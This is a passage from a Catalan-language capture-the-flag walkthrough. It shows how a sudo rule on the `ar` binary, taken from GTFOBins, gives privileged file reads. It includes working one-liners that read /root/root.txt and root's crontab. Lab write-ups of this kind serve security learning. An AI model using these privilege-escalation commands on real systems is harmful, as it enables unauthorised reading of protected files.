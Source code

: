 Tenim permís sudo per executar el binari `ar`, segons el que indica a GTFOBins, podem obtenir una lectura de fitxers privilegiada.

![gtfobins](../../../assets/images/securitron/image-33.png)

Intentem llegir la flag de root.txt mitjançant `sudo` en el binari `ar`.

```bash
TF=$(mktemp -u) && sudo /usr/bin/ar r "$TF" "/root/root.txt" && cat "$TF"
```

En llegir el fitxer de la flag de `/root/root.txt`, ens apareix el missatge `Aquesta vegada no serà tan fàcil.`

![/root/root.txt](../../../assets/images/securitron/image-34.png)

Intentem llegir altres fitxers i trobem alguna cosa molt interessant en el fitxer de crontab de l'usuari root.

```bash
TF=$(mktemp -u) && sudo /usr/bin/ar r "$TF" "/var/spool/cron/crontabs/root" && cat "$TF"
```
